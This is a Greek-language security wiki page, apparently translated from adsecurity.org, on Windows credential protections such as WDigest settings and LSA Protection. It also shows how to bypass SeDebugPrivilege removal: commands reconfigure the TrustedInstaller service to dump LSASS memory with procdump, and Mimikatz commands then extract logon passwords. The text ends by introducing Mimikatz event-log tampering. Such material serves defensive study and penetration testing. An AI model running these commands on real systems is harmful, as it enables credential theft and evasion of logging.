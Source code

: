 Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


**Αυτή η σελίδα βασίζεται σε μία από το [adsecurity.org](https://adsecurity.org/?page\_id=1821)**. Δείτε την πρωτότυπη για περισσότερες πληροφορίες!

## LM και Καθαρό Κείμενο στη μνήμη

Από τα Windows 8.1 και Windows Server 2012 R2 και μετά, έχουν εφαρμοστεί σημαντικά μέτρα για την προστασία από την κλοπή διαπιστευτηρίων:

- **LM hashes και κωδικοί πρόσβασης σε καθαρό κείμενο** δεν αποθηκεύονται πλέον στη μνήμη για την ενίσχυση της ασφάλειας. Μια συγκεκριμένη ρύθμιση μητρώου, _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest "UseLogonCredential"_ πρέπει να ρυθμιστεί με μια τιμή DWORD `0` για να απενεργοποιηθεί η Αυθεντικοποίηση Digest, διασφαλίζοντας ότι οι κωδικοί πρόσβασης σε "καθαρό κείμενο" δεν αποθηκεύονται στη μνήμη LSASS.

- **Η Προστασία LSA** εισάγεται για να προστατεύσει τη διαδικασία της Τοπικής Αρχής Ασφαλείας (LSA) από μη εξουσιοδοτημένη ανάγνωση μνήμης και έγχυση κώδικα. Αυτό επιτυγχάνεται με την επισήμανση της LSASS ως προστατευμένη διαδικασία. Η ενεργοποίηση της Προστασίας LSA περιλαμβάνει:
1. Τροποποίηση του μητρώου στο _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ ρυθμίζοντας το `RunAsPPL` σε `dword:00000001`.
2. Υλοποίηση ενός Αντικειμένου Πολιτικής Ομάδας (GPO) που επιβάλλει αυτή την αλλαγή μητρώου σε διαχειριζόμενες συσκευές.

Παρά αυτές τις προστασίες, εργαλεία όπως το Mimikatz μπορούν να παρακάμψουν την Προστασία LSA χρησιμοποιώντας συγκεκριμένους οδηγούς, αν και τέτοιες ενέργειες είναι πιθανό να καταγραφούν στα αρχεία καταγραφής γεγονότων.

### Αντεπίθεση Αφαίρεσης SeDebugPrivilege

Οι διαχειριστές συνήθως έχουν SeDebugPrivilege, επιτρέποντάς τους να αποσφαλματώνουν προγράμματα. Αυτό το προνόμιο μπορεί να περιοριστεί για να αποτραπούν οι μη εξουσιοδοτημένες εκφορτώσεις μνήμης, μια κοινή τεχνική που χρησιμοποιούν οι επιτιθέμενοι για να εξάγουν διαπιστευτήρια από τη μνήμη. Ωστόσο, ακόμη και με αυτή την αφαίρεση προνομίου, ο λογαριασμός TrustedInstaller μπορεί να εκτελεί εκφορτώσεις μνήμης χρησιμοποιώντας μια προσαρμοσμένη ρύθμιση υπηρεσίας:
```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```
Αυτό επιτρέπει την εξαγωγή της μνήμης `lsass.exe` σε ένα αρχείο, το οποίο μπορεί στη συνέχεια να αναλυθεί σε άλλο σύστημα για την εξαγωγή διαπιστευτηρίων:
```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```
## Mimikatz Options

Η παραχάραξη των καταγραφών συμβάντων στο Mimikatz περιλαμβάνει δύο κύριες ενέργειες: την εκκαθάριση των καταγραφών συμβάντων και την επιδιόρθωση της υπηρεσίας Event για να αποτραπεί η καταγραφή νέων συμβάντων. Παρακάτω είναι οι εντολές για την εκτέλεση αυτών των ενεργειών:
